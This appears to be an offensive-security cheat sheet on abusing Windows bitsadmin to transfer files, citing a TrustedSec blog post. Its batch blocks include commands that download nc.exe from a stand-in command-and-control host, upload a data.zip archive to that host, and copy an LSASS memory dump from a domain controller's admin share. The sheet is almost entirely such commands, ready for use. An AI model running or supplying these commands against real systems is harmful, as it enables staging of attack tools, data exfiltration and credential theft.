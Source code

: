 # BITSADMIN

## Download[^1]
* If you remove the timeout (`timeout /T 10`) , make sure to still execute `bitsadmin /complete JOB` after the job has completed.
* Advantages:
    * Can resume upon disconnection
* Disadvantages:
    * Slow
```batch
bitsadmin /create JOB & bitsadmin /addfile JOB <REMOTE_SRC> <LOCAL_DST> & bitsadmin /resume JOB & timeout /T 10 & bitsadmin /complete JOB
bitsadmin /create JOB & bitsadmin /addfile JOB <REMOTE_SRC> <LOCAL_DST> & bitsadmin /resume JOB & timeout /T 10 & bitsadmin /complete JOB
bitsadmin /create JOB & bitsadmin /addfile JOB https://c2.evil.com/nc.exe %TEMP%\nc.exe & bitsadmin /resume JOB & bitsadmin /complete JOB
bitsadmin /transfer debjob /download /priority high "\\DC01\c$\Windows\Temp\lsass.dmp" C:\Users\user\Downloads\lsass.dmp
```

## Upload
* If you remove the timeout (`timeout /T 10`) , make sure to still execute `bitsadmin /complete JOB` after the job has completed.
```batch
bitsadmin /create /upload JOB & bitsadmin /addfile JOB <REMOTE_DST> <LOCAL_SRC> & bitsadmin /resume JOB & timeout /T 10 & bitsadmin /complete JOB
bitsadmin /create /upload JOB & bitsadmin /addfile JOB https://c2.evil.com/data.zip %TEMP%\data.zip & bitsadmin /resume JOB & timeout /T 10 & bitsadmin /complete JOB
```


[^1]: [TrustedSec - BITS for Script Kiddies](https://www.trustedsec.com/blog/bits-for-script-kiddies/)
